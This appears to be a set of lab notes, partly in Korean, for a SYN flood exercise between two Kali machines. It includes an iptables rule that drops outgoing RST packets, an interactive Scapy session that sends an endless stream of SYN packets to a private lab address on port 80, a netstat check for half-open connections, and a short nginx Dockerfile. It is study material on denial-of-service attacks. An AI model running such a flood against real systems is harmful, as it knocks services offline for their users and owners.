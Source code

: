 

Kali2

```shell
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
iptables -L -n
```



Kali2

```python
root@kali:~# scapy
INFO: Can't import python gnuplot wrapper . Won't be able to plot.
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.3.2)
>>> ip = IP()
>>> ip.dst = "192.168.111.150"
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024,65535)
>>> tcp.flags="S"
>>> syn = ip/tcp
>>> send(syn, loop=True)
................................................................................................................................................................
```

![](https://i.imgur.com/AM4vJpa.png)



![](https://i.imgur.com/ZMANUwA.png)



Kali1

```shell
netstat -an | grep -i syn_recv
```



## Docker

1. Dockerfile 생성

Dockerfile

```shell
FROM nginx

RUN mkdir -p /usr/share/nginx/html/b-ban

COPY hello.html /usr/share/nginx/html/b-ban/
```
